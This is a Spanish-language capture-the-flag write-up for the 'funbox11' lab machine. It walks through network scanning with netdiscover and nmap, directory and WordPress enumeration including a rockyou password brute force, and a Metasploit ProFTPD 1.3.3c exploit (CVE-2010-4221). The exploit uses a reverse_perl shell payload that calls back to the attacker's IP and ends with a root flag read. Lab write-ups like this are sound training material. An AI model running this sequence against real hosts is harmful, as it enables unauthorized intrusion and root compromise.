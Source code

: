 - Comenzamos obteniendo la ip de nuestra maquina para buscar las IP dentro de la red y encontrar la maquina victima.
```
ifconfig 
```

- Con " netdiscover " buscaremos los dispositivos conectados al segmento de red de nuestro equipo
	```
	sudo netdiscover -r 192.168.1.0/24
	```

- Con " nmap " buscaremos los puertos y las versiones de los servicios que consumen estos puertos para el análisis de vulnerabilidades.
```
sudo nmap -sV -A 192.168.0.45
```

Encontramos los sigientes puertos:

| Puerto      | Servicio / Protocolo     | ¿Para qué sirve?                                                                                                                                                       |
| ----------- | ------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **21/tcp**  | **FTP (ProFTPD 1.3.3c)** | **File Transfer Protocol**: Para transferir archivos. Este servidor (ProFTPD) permite subir/bajar archivos, pero **no cifra los datos**, así que no es seguro sin SSL. |
| **22/tcp**  | **SSH (OpenSSH 7.2p2)**  | **Secure Shell**: Para conectarse de forma remota y segura a otro sistema (por terminal/console). Cifra toda la comunicación.                                          |
| **25/tcp**  | **SMTP (Postfix)**       | **Simple Mail Transfer Protocol**: Para **enviar correos electrónicos**. Postfix es un servidor de correo muy común.                                                   |
| **80/tcp**  | **HTTP (Apache 2.4.18)** | **Hypertext Transfer Protocol**: Para servir páginas web en texto claro (sin cifrado). Apache es el servidor web.                                                      |
| **110/tcp** | **POP3 (Dovecot)**       | **Post Office Protocol v3**: Para **recibir correos**, descargándolos del servidor a tu cliente (como Outlook o Thunderbird).                                          |
| **139/tcp** | **NetBIOS (Samba)**      | Para compartir archivos e impresoras en redes Windows. Usado por **Samba** para comunicación entre Linux y Windows.                                                    |
| **143/tcp** | **IMAP (Dovecot)**       | **Internet Message Access Protocol**: También para recibir correos, pero a diferencia de POP3, **no descarga y borra**, sino que los deja en el servidor.              |
| **445/tcp** | **SMB (Samba)**          | También usado para compartir archivos e impresoras, como 139, pero en versiones más modernas de Windows.                                                               |

- Si intentamos entrar a ver que contiene la web ya que descubrimos que tiene levantado un servidor web en el puerto 80, http://192.168.0.45/:
- Vemos los siguiente:
	- ![web_1.png](img/web_1.png)

	- Tenemos que agregar el nombre del host para visualizar la web, vamos abrir un editor como "nano" a "/etc/hosts" y ponermos la direción IP de la victima y el nombre del host en este caso "funbox11"
		- 192.168.0.45  funbox11
```
sudo nano /et/hosts
```

- Una ves hecho eso vamos a ver la web:
	- ![web_2.png](img/web_2.png)

- Revisando la web y el código podemos encontrar información que quisas sea de utilidad por ejemplo el nombre de un posible usuario "admin" y ademas que a simple vista vemos las peticiones que realisa:
	- ![web_3.png](img/web_3.png)

- Revisando código y realizando una enumeración de directorios con "dirbe" o "dirsearch" vemos que maneja un worpress:
```
sudo dirsearch -u http://funbox11/
```

- Procedemos a realizar un escaneo a wordpress en busca de usuarios y contraseñas, aunque ya teniamos en mente un usuario admin y fue detectado en nuestro escaneo, no pudimos obtener un password:
```
wpscan --url http://funbox11/ — detection-mode aggressive -e u -P /home/hunter/Desktop/rockyou.txt
```

- Entonces vamos a intentar algo más, buscar algun exploit en los puertos abierto que encontramos con nmap.

- Vamos a usar "metasploit":
```
msfconsole
```

- ## CVE-2010-4221 Detail (ProFTPD 1.3.3c)
	- Múltiples desbordamientos de búfer basados ​​en pila en la función pr_netio_telnet_gets en netio.c en ProFTPD anterior a 1.3.3c permiten a atacantes remotos ejecutar código arbitrario a través de vectores que involucran un carácter de escape IAC de TELNET a un servidor (1) FTP o (2) FTPS.
	- https://nvd.nist.gov/vuln/detail/cve-2010-4221

- Dentro de metasploit buscamos un exploit en este caso buscamos para el ftp:
	- ![sploit_1.png](img/sploit_1.png)
```
search ProFTPD 1.3.3c
```

- Seleccionamos el exploit, podemos escribir el nombre completo o solo usar el numero:
	- ![sploit_2.png](img/sploit_2.png)
```
use 0
```

- Podemos revisar los "payloads" para elegir la carga util:
	- ![sploit_3.png](img/sploit_3.png)
```
show payloads
```

- Una ves elegido cual cargaremos, procedemos a cargarla:
	- ![sploit_4.png](img/sploit_4.png)
```
set PAYLOAD /cmd/unix/reverse_perl
```

- Y ahora procedemos a colocar la IP de la victima:
	- ![sploit_5.png](img/sploit_5.png)
```
set RHost 192.168.0.45
```

- Y ahora ponemos nuestra IP:
	- ![sploit_6.png](img/sploit_6.png)
```
set LHost 192.168.0.20
```

- Y procedemos a ejecutar el exploit que al darnos acceso tambien nos permite iniciar como root:
	- ![sploit_7.png](img/sploit_7.png)
```
exploit
```

- Usando cat podemos imprimir la flag oculta en el directorio root:
	- ![flag.png](img/flag.png)
```
cat /root/root.txt
```
